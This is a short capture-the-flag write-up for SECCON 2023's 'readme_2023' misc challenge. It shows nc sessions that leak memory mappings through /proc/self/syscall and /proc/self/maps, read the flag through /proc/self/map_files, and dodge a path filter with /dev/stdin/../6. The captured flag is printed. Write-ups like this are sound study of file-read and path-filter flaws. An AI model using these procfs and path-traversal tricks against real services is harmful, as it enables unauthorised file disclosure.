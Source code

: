 # Lesson Learn
- /proc/self/syscall
- /proc/self/maps 
- /proc/self/map_files/(xxxx)-(xxxx)
- /proc/self/fd/

# Write Up
There are two options.
- solution 1 : open map_files
- solution 2 : bypass fd  

## solution 1 : open map_files
1. check a characteristics around /proc/self/syscall, /proc/self/maps  
    e.g.
    ```console
    $ nc readme-2023.seccon.games 2023
    path: /proc/self/maps
    b'
    55d0743de000-55d0743df000 r--p 00000000 fc:03 1058172  /usr/local/bin/python3.11
    55d0743df000-55d0743e0000 r-xp 00001000 fc:03 1058172  /usr/local/bin/python3.11
    55d0743e0000-55d0743e1000 r--p 00002000 fc:03 1058172
    '
    path: /proc/self/syscall
    b'0 0x5 0x55d07575e6b0 0x400 0x2 0x0 0x0 0x7ffe8e485d38 0x7f332976907d\n'
    ```
2. guess and calculate an offset  
    check the offset with local container.  

    edit server.py like this.  
    - before  
    ```py
    :
    :
        with open(os.path.realpath(path), "rb") as f:
            print(f.read(0x100))
    ```
    - after  
    ```py
    :
    :
        with open(os.path.realpath(path), "rb") as f:
            print(f.read())
    ```
    build a container on a local machine  
    ![Offset Calc Image](SECCONCTF2023/misc/readme_2023/offsetCalc.png) 

3. try on a target machine
    ```console
    $ nc readme-2023.seccon.games 2023
    path: /proc/self/syscall
    b'0 0x7 0x55ff3af0b6b0 0x400 0x2 0x0 0x0 0x7ffdbcab9868 0x7f655358f07d\n'
    path: /proc/self/map_files/7f6553679000-7f655367a000
    b'SECCON{y3t_4n0th3r_pr0cf5_tr1ck:)}\n'
    ```

## solution 2 : bypass fd  
`/dev/stdin` --> `/proc/self/fd/0`  
`/dev/stdin/../` --> `/proc/self/fd`  
`/dev/stdin/../6` --> `/proc/self/fd/6`

